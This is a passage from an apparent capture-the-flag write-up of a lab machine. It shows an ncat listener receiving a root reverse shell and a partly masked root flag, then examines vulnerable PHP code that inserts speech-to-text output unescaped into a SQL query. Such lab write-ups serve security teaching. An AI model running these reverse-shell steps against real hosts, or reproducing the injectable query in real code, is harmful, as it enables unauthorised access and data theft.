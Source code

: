 

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.163.
    Ncat: Connection from 10.10.10.163:44434.
    bash: cannot set terminal process group (1823): Inappropriate ioctl for device
    bash: no job control in this shell
    root@AI:~#



And I can grab `root.txt`:



    root@AI:~# cat root.txt    
    0ed04f28************************



## Beyond Root

### AI Website

I wanted to look into how the website was handing voice, and why I
couldn't get any query to actually return results except for with SQLi.
Once I got a shell as alexa, I checked out the `/var/www.md`
directory:



    alexa@AI:/var/www.md$ ls
    5075140835d0bc504791c76b04c33d2b.py  about.php  ai.php  contact.php  db.php  images  index.php  intelligence.php  uploads



It's interesting to see a Python file there. I'll get to that in a
second. `ai.php` is what I was POSTing wave files to. At the top of it,
there's the code that handles that:



    <?php
    error_reporting(E_ALL);
    include("db.php");
    if(isset($_POST["submit"]))
    {
            $file = rand(0,1000000).'.wav';
            $target_file = "uploads/".$file;
            if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file))
            {
                    $output = exec("/usr/bin/python 5075140835d0bc504791c76b04c33d2b.py $target_file");
                    $sql = "select output from alexa where query='$output'";
                    $result = mysqli_query($conn,$sql);
                    if($result->num_rows > 0)
                    {
                            $row = mysqli_fetch_assoc($result);
                            $out = "Query result : ".$row["output"];
                    }
